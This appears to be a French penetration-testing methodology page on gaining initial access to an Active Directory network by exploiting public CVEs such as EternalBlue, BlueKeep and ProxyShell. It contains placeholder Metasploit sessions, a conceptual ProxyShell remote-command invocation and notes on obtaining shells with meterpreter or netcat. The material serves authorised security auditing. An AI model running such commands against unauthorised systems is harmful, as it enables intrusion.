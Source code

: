 # III.A. Exploitation de Vulnérabilités Publiques

Cette section couvre l'obtention d'un accès initial en exploitant des vulnérabilités connues sur des services exposés par l'organisation, qu'ils soient directement liés à l'AD ou sur des systèmes périphériques pouvant donner un accès au réseau interne.

## 1. Identification des Services Exposés
*   Utiliser les résultats de la phase de [Reconnaissance Initiale](../01-reconnaissance-initiale/README.md) (Nmap, Shodan, Censys).
*   Focus sur : Serveurs Web (IIS, Apache, etc.), RDP, SMB, VPN, Exchange (OWA), SharePoint.

## 2. Recherche de Vulnérabilités (CVEs)
*   **Outils :**
    *   `searchsploit <service_version>`: Recherche dans la base de données Exploit-DB.
    *   Google Dorks : `"<service_version>" + CVE`, `"<service_version>" + exploit`.
    *   Sites : `cvedetails.com`, `mitre.org`.
    *   Scanners de vulnérabilités (Nessus, OpenVAS) si autorisés dans le cadre de la mission.

## 3. Exemples d'Exploitation Courants

### a. Vulnérabilités Web
*   **Exemples :** RCE (Remote Code Execution) via upload de fichiers, injections SQL, désérialisation, failles SSRF menant à une RCE interne.
*   **Outils :** Metasploit Framework (`msfconsole`), exploits Python/Ruby/etc. personnalisés, Burp Suite.
    ```bash
    # Exemple Metasploit (fictif)
    msfconsole
    msf > search <CVE_ID_OU_NOM_SERVICE>
    msf > use exploit/<chemin_vers_exploit>
    msf > set RHOSTS <IP_CIBLE>
    msf > set LHOST <IP_ATTAQUANT>
    msf > exploit
    ```

### b. Vulnérabilités RDP
*   **Exemples :** BlueKeep (CVE-2019-0708), DejaBlue (CVE-2019-1181/1182).
*   **Outils :** Modules Metasploit, PoCs publics.
    ```bash
    # Exemple avec un PoC (fictif)
    python cve-xxxx-xxxx_poc.py <IP_CIBLE>
    ```

### c. Vulnérabilités SMB
*   **Exemples :** EternalBlue (MS17-010), SMBGhost (CVE-2020-0796).
*   **Outils :** Metasploit, PoCs.
    ```bash
    # Vérification MS17-010 avec Nmap
    nmap -p 445 --script smb-vuln-ms17-010 <IP_CIBLE>
    ```

### d. Vulnérabilités Exchange
*   **Exemples :** ProxyLogon (CVE-2021-26855), ProxyShell (CVE-2021-34473, CVE-2021-34523, CVE-2021-31207).
*   **Outils :** PoCs publics sur GitHub.
    ```bash
    # Exemple (conceptuel) pour ProxyShell
    python proxyshell_rce.py -u https://<exchange_server>/owa/auth/x.js <email_cible> "commande_a_executer"
    ```

## 4. Post-Exploitation Initiale
*   Obtenir un shell (meterpreter, netcat, etc.).
*   Stabiliser l'accès.
*   Commencer l'[Énumération Locale Approfondie](../04-post-compromission/A-enumeration-locale.md).

**Note Importante :** Toujours vérifier la portée de l'audit avant d'exploiter activement des vulnérabilités. Privilégier les exploits non destructifs. 
